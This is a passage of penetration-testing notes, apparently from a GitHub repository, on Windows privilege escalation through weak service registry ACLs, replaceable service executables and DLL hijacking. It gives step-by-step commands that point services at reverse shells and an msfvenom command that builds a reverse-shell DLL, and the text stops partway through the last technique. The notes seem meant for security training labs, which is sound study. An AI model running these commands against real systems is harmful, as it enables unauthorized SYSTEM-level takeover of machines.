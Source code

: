 ### Weak Registry Permissions
* The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service's configuration even if we cannot modify the service directly. 
1. Enumerate with winPEAS
2. Verify registry permission with powershell
`Get-ACL HKLM:\System\CurrentControlSet\Service\regsvc | Format-List`
* or verify with accesscheck
`.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`
3. Use accesschk.exe to verify if you can start and stop the  service.
`.\accesschk.exe /accepteula -ucqv user regsvc`
4. Check the current values in the service registry
`reg query HKLM\System\CurrentControlSet\Services\regsvc`
5. If you have permission, overwrite the image path value in the services registry entry so that it points to our reverse shell (same as changing the bin path of our service)
`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\path\to\revshell.exe /f`
6. Start a listener
7. Start the service

### Insecure Service Executables
* If the original service exectuable is modifyable by our user we can simply replace it with our reverse shell
* Make sure to create a backup of the original executable
1. Use winPEAS to search for insecure service executables
`.\winPEASany.exe quiet servicesinfo`
2. Confirm with accesschk.exe
`.\accesschk.exe /accepteula -uwq "C:\Program Files\File Permissions Service\filepermservice.exe"`
3. Confirm we can stop and start the service
`.\accesschk.exe /accepteula -ucqv user filepermsvc`
4. Backup original service exectuable
`copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp`
5. Overwrite the original service
`copy /Y C:\path\to\reverseshell.exe "C:\Program Files\File Permissions Service\filepermservice.exe"`
6. Start nc listener
7. Start the service

### DLL Hijacking
* Often a service will try to load functionality from a library called a DLL (dynamic link library). Whatever functionality the DLL provides, will be executed with the same privileges as the service that loaded it. 
* If a DLL is loaded with an absolute path, it might be possible to escalate privileges if that DLL is writable by our user.
* A more common misconfiguration that can be used for privesc is fi a DLL is missing from the system, and our user has write access to a directory within the PATH that Windows searches for DLL
* However, detection of vulnerable services is difficult and is a manual process
1. Enumerate the winPEAS output for DLL hijacking (C:\Temp is writable and in the PATH) and non-windows services 
2. Enumerate which of the services for which we have start/stop ability (Only doing DLL in the e.g.)
`.\accesschk.exe /accepteula -ucqv user dllsvc`
3. Confirm the service 
`sc qc dllsvc`
4. Copy service to a vm with admin rights to analyze the file
* Use Procmon to analyze and confirm that the service is in the C:\Temp PATH
5. Generate a reverse shell with format set to DLL
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=X.X.X.X LPORT=XXXX -f dll -o reverse.dll`
6. Copy the dll into the folder you have permissions to write in on the PATH
`copy \\192.168.x.x\revesrse.dll C:\Temp`
7. Stop then start the service
`net stop dllsvc